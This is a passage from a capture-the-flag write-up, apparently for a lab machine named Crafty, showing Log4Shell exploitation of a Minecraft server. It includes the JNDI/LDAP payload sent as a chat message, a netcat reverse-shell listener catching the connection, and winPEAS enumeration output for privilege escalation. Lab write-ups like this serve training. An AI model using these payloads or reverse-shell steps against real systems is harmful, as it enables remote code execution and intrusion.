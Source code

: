 Now in a Minecraft Console Client, Send your payload as a message and you will see the reverse shell
```
<lol> ${jndi:ldap://10.10.14.4:1389/a}
[MCC] You have respawned.         
<lol> ${jndi:ldap://10.10.14.4:1389/a}
lol was slain by Zombie
[MCC] You are dead. Type '/respawn' to respawn.
[MCC] You have respawned.         
```

Got the user shell. Get your user flag from the Desktop folder
```
$ nc -lvnp 4444     
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.249] 49723
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>whoami
whoami
crafty\svc_minecraft
```

### Privilege Escalation

#### Using winPEAS.bat 

Some of the notable information
```
Host Name:                 CRAFTY                                                                                                                     
OS Name:                   Microsoft Windows Server 2019 Standard                                                                                     
OS Version:                10.0.17763 N/A Build 17763
```

Since the user flag was captured using the `log4j`, I will also focus on Java Modules during the privilege escalations.

```
Path=C:\Program Files (x86)\Common Files\Oracle\Java\javapath;C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\svc_minecraft\AppData\Local\Microsoft\WindowsApps                                                                                      

PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC   

ProgramData=C:\ProgramData                                                                                                                            
ProgramFiles=C:\Program Files                                                                                                                         
ProgramFiles(x86)=C:\Program Files (x86)        
ProgramW6432=C:\Program Files 
TEMP=C:\Users\SVC_MI~1\AppData\Local\Temp 
```
